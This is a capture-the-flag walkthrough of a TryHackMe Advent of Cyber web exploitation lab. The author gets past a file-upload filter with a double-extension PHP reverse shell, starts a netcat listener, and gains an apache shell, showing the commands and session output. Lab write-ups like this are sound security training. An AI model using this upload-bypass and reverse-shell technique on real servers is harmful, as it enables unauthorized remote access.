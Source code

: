 # [Day 2] Web Exploitation The Elf Strikes Back!
After starting the machine we browse to the assigned ip.
Here we're greeted with a screen saying:
```
You are not signed in
Please enter your ID as a GET parameter (?id=YOUR_ID_HERE)
```
In the task assignment we were given an id `ODIzODI5MTNiYmYw`.
We add the id parameter to the URL by appending `?id=<our assigned id>` to the path. 
This solves task one.

We are then greeted by an uploads page. 
Checking the page source revealt that the input field has an `accept` attribute.
This reveals which file types we're allowed to upload. The accepted types are `.jpeg,.jpg,.png`.
These are all ____ files and we have solved task two.

If using kali we have some reverse shells located in `/usr/share/webshells/php/php-reverse-shell.php`.
If not using kali, we can find a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) by googling it.
To bypass the upload filter we can simply have the shell include on of the allowed extentions.
```
cp php-reverse-shell.jpg.php
```
After changing the name and editing the script to use our own ip, we upload it to the server.

Now we want to find the directory where the file was uploaded. By checking some common upload paths, 
we find that the directory is called `/u*****s/`. This solves task three.

Here se see our reverse shell we uploaded earlier.
We start a netcat listner by running:
```
nc -lnvp 1234
```
Clicking the shell file in the browser makes the server execute our php script.
Our netcat session responds with:
```
kali@kali:~$ nc -lnvp 1234                                                                                        
listening on [any] 1234 ...
connect to [10.9.129.26] from (UNKNOWN) [10.10.118.86] 35128
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:28:37 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (881): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$
```
Now we have access to the machine. This solves task four.

Reading the flag in `/var/www/flag.txt`:
```
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{********************************}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================


sh-4.4$
```
